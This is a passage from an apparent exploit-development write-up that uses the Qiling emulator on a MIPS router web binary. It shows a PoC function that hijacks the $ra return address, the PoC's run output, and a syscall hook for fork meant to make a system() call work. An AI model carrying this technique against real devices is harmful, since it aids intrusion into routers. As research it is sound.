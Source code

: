 ```Python
def simulate_exploitation(ql):
    ...
    ql.reg.ra = QILING_EXIT           # and finally we change the $ra register
```

Running the PoC:

```
...
** at simulate_exploitation **
write(1,7756d038,114) = 0
HTTP/1.1 200 OK
Content-Type: text/xml

<hedwig><result>FAILED</result><message>no xml data.</message></hedwig>exit(4431872) = 4431872
...
```

Much better! As we can see the program exits gracefully with the call to `exit()`. We can be sure that the idea for the exploit works! Let's work on transforming this simulation into something real.

### Making system call "work"

While reading what I did in the previous step, I realized that I was being lazy taking the shortcut of executing `exit` as shellcode,  and that I should try harder with my first idea of calling the system function. Based on this, I dug deeper on how to make this work.

My first idea was to check why I was receiving this error:

```
[!] 0x77507144: syscall ql_syscall_fork number = 0xfa2(4002) not implemented
```


I [looked up what type of syscall]((https://syscalls.w3challs.com/?arch=mips_o32)) 0xfa2 was, and found that , _syscall 0xfa2_ is a [fork](https://man7.org/linux/man-pages/man2/fork.2.html). With this information, I used [Qiling's ability to extend syscalls](https://docs.qiling.io/en/latest/hijack/#qlset_syscall) like this:

```Python

MIPS_FORK_SYSCALL = 0xfa2

...

# Code copied from lib/qiling/os/posix/syscall/unistd.py:380
def hook_fork(ql, *args, **kw):
    pid = os.fork()
    
    if pid == 0:
        ql.os.child_processes = True
        ql.dprint (0, "[+] vfork(): is this a child process: %r" % (ql.os.child_processes))
        regreturn = 0
        if ql.os.thread_management != None:
            ql.os.thread_management.cur_thread.set_thread_log_file(ql.log_dir)
        else:
            if ql.log_split:
                _logger = ql.log_file_fd
                _logger = ql_setup_logging_file(ql.output, ql.log_file , _logger)
                _logger_name = str(len(logging.root.manager.loggerDict))
                _logger = ql_setup_logging_file(ql.output, '_'.join((ql.log_file, _logger_name)))
                ql.log_file_fd = _logger
    else:
        regreturn = pid

    if ql.os.thread_management != None:
        ql.emu_stop()

```